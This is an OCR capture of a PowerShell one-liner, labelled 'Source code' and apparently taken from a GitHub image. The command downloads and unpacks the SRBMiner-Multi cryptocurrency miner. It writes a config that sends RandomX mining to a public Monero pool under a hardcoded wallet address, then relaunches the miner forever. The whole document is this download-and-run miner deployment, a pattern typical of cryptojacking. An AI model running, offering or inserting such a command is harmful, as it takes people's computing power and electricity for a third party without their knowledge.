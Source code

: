 powershell -Command "
Invoke-WebRequest -Uri 'https://github.com/doktor83/SRBMiner-Multi/releases/download/2.9.4/SRBMiner-Multi-2-9-4-win64.zip' -OutFile 'srbminer.zip';
Expand-Archive -Path 'srbminer.zip' -DestinationPath '.';
\$folder = Get-ChildItem -Directory | Where-Object { \$_.Name -like 'SRBMiner-Multi*' } | Select-Object -First 1;
Set-Location \$folder.FullName;
@'
{
  \"algorithm\": \"randomx\",
  \"pool\": \"pool.supportxmr.com:443\",
  \"wallet\": \"45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb\",
  \"password\": \"x\",
  \"worker\": \"srb-cpu-gpu\",
  \"gpu_conf\": \"auto\",
  \"tls\": true
}
'@ | Out-File 'start_config.json' -Encoding ascii;
while (\$true) {
  Start-Process .\\SRBMiner-MULTI.exe -ArgumentList '--config start_config.json --logfile miner.log' -Wait;
  Start-Sleep -Seconds 10;
}
"
